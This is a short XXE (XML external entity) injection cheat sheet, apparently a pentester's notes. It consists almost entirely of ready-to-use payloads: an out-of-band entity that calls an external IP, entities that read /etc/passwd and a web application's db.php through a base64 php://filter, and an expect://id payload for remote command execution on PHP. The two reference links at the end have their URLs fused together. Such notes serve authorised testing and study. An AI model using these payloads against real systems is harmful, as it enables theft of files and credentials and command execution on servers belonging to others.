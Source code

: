 # xml external entity XXE

## Get ping back

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.161"> %xxe; ]>
<!--
# usage
<var>&xxe;</var>
-->
```

## Read File

```xml
<!-- using php-base64 when reading file that are not being loaded -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>

<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<!--
# usage
<var>&xxe;</var>
-->
```

## RCE using expect (PHP)

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id"> ]>
```

## Additional Material

* [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
